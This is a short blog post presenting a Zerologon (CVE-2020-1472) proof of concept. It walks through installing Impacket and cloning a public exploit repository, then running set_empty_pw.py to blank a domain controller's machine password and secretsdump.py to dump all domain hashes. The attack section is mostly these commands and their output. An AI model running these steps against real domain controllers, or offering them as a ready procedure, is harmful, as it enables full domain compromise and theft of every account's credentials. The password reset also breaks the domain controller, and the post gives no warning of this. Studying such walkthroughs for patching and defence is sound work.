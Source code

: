 ```yaml
---
title: CVE-2020-1472 Zerologon Exploit POC
description: Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller.
author: hum4ng0d
date: 2020-11-11
categories: [Blog]
tags: [windows server, zerologon, exploit, impacket]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/zerologon_poc/zlo.png
  alt: Zerologon
---
```


![Zerologon Exploit](/assets/img/zerologon_poc/zlo.png)

Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller.

## Impacket 0.9.22

At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.

![Current impacket stable version](/assets/img/zerologon_poc/impacket0921.png)

But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong. Alternatively, you can install Impacket in a docker and run as well. You can learn more about it in this [post](https://blog.ropnop.com/docker-for-pentesters/#example-3---impacket "Docker - Impacket"). But for the sake of this post, we will just install on our VM.

After creating a VM snapshot, remove any existing Impacket installation with the following command:

```

> apt remove --purge impacket-scripts python3-impacket

```

Here is the link to the Impacket newer version: [Impacket Link](https://github.com/SecureAuthCorp/impacket/tree/b867b21de5fcfd48686a04487e1ef83c2d1b5e47 "Impacket")

![Impacket 0.9.22](/assets/img/zerologon_poc/impacket0922.png)

```

> git clone https://github.com/SecureAuthCorp/impacket.git

> cd impacket

> pip install .

```


## Exploitaion

We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")

```

> git clone https://github.com/risksense/zerologon.git

> cd zerologon

```

And now run the script against the Domain Controller:

```python

> python3 set_empty_pw.py <DC-NAME> <ip-address>

```

![running set_empty_pw.py](/assets/img/zerologon_poc/set-set_empty_pw.png)

If the script ran successfully, there should be no password for the DC after that.


## Dumping hashes from DC

```python

> secretsdump.py -just-dc <DC-NAME>\$@10.10.10.1

```

![Hash dumping with secretdump.py](/assets/img/zerologon_poc/secretsdump.png)

And that's it. It's very easy to exploit. Hope you guys enjoyed it.

If you want to learn more about this exploit, Heath (TCM) has done a great video explaining about it. Here is the video: [ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)](https://www.youtube.com/watch?v=6xMGsdD-ArI&ab_channel=TheCyberMentor "ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)")
